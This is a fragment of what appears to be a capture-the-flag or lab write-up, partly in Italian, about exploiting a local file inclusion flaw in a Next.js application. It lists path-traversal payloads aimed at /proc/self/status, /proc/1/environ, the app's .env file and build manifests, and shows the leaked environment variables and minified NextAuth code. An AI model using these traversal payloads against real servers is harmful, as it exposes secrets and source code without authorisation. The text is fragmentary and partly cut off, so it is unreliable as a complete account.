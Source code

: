 `../../../proc/self/status`

```text

Name:   next-server
Pid: 1
...

```

`../../../proc/1/environ`

```text

NODE_VERSION=18.20.8
HOSTNAME=0.0.0.0
YARN_VERSION=1.22.22
SHLVL=1PORT=3000
HOME=/home/nextjs
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NEXT_TELEMETRY_DISABLED=1
PWD=/app
NODE_ENV=production

```

Sempre con la **LFI** si e' verificato che `../../../app/.env`.

`../../../app/.next/build-manifest.json` Lists all the files your app uses.

`../../../app/.next/required-server-files.json`

`../../../app/.next/server/pages-manifest.json`

`../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js`

```text

"use strict";
(() => {
    var e = {};
    e.id = 651, e.ids = [651], e.modules = {
        3480: (e, n, r) => {
            e.exports = r(5600)
        },
        5600: e => {
            e.exports = require("next/dist/compiled/next-server/pages-api.runtime.prod.js")
        },
        6435: (e, n) => {
            Object.defineProperty(n, "M", {
                enumerable: !0,
                get: function () {
                    return function e(n, r) {
                        return r in n ? n[r] : "then" in n && "function" == typeof n.then ? n.then(n => e(n, r)) : "function" == typeof n && "default" === r ? n : void 0
                    }
                }
            })
        },
        8667: (e, n) => {
            Object.defineProperty(n, "A", {
                enumerable: !0,
                get: function () {
                    return r
                }
            });
            var r = function (e) {
                return e.PAGES = "PAGES", e.PAGES_API = "PAGES_API", e.APP_PAGE = "APP_PAGE", e.APP_ROUTE = "APP_ROUTE", e.IMAGE = "IMAGE", e
```